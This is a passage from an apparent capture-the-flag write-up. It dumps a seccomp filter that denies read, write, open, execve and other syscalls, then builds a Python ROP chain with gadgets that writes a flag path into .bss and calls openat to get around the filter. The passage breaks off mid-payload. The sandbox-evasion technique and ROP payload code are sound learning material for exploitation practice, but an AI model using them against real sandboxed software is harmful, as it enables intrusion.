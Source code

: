 ```shell
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x31 0xffffffff  if (A != 0xffffffff) goto 0054
 0005: 0x15 0x30 0x00 0x00000000  if (A == read) goto 0054
 0006: 0x15 0x2f 0x00 0x00000001  if (A == write) goto 0054
 0007: 0x15 0x2e 0x00 0x00000002  if (A == open) goto 0054
 0008: 0x15 0x2d 0x00 0x00000009  if (A == mmap) goto 0054
 0009: 0x15 0x2c 0x00 0x00000011  if (A == pread64) goto 0054
 ...
 0017: 0x15 0x24 0x00 0x0000003b  if (A == execve) goto 0054
 0018: 0x15 0x23 0x00 0x00000065  if (A == ptrace) goto 0054
 ...
 0041: 0x15 0x0c 0x00 0x00000125  if (A == pipe2) goto 0054
 0042: 0x15 0x0b 0x00 0x00000134  if (A == setns) goto 0054
 0043: 0x15 0x0a 0x00 0x00000136  if (A == process_vm_readv) goto 0054
 0044: 0x15 0x09 0x00 0x00000137  if (A == process_vm_writev) goto 0054
 0045: 0x15 0x08 0x00 0x0000013a  if (A == sched_setattr) goto 0054
 0046: 0x15 0x07 0x00 0x0000013d  if (A == seccomp) goto 0054
 ...
 0053: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0054: 0x06 0x00 0x00 0x00000000  return KILL
```

We see that anything suffixed with `goto 0054` is disallowed. There's 54 syscalls disallowed in total which includes 99% of the most obviously useful ones, so what can we still do? Well the challenge description explicitly gives us the file path to the flag, which makes it very likely that we probably need to somehow open the file and then read it to stdout. So, let's look for alternatives.

## Crafting the Exploit
I started off at this handy [`syscall` reference](https://syscalls.pages.dev/). Searching for the keyword `open` to look for alternatives led me to the `openat` syscall.

The linux [man page](https://linux.die.net/man/2/openat) for `openat` reveals that the syscall takes three parameters.

```c
int openat(int dirfd, const char *pathname, int flags);
```

Important here is that  `dirfd` is ignored if the path value is absolute, so all we need is the file path string pointer and the flags. For the flags we can use `O_RDONLY` for which I obtained the value from [here](https://github.com/torvalds/linux/blob/master/include/uapi/asm-generic/fcntl.h). Then we have to figure out how we're going to store the string. Since we have an arbitrary write primitive with `mov %rsi, (%rdi) ret` and `pop %rsi` we can choose some writable section of the code (here I chose the .bss section) whose address is known at runtime to write to. Then we can hard-code the address where we wrote the string to and pass it as an argument to our syscall. The final code for opening the file is as follows, where the constants in `SCREAMING_SNAKE_CASE` are gadgets:

```python
# 1. Write "/tmp/flag.txt" to .bss
payload += flat(
    POP_RDI, writable_addr,
    POP_RSI, u64(b"/tmp/fla"),
    MOV_RSI_TO_MEM_AT_RDI,
    POP_RDI, writable_addr + 8,
    POP_RSI, u64(b"g.txt\x00\x00\x00"),
    MOV_RSI_TO_MEM_AT_RDI
)

# 2. Open file using openat (syscall 257)
payload += flat(
    POP_RAX, 257,
    POP_RDI, DIRFD,
    POP_RSI, writable_addr,
    POP_RDX, O_RDONLY,
    SYSCALL
```